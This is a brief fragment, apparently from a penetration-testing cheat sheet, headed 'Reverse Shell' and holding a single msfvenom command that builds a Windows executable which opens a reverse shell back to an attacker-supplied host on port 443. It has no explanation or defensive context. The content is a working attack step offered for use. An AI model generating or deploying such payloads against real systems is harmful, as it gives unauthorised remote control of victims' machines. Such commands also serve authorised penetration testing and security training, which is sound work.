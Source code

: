#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

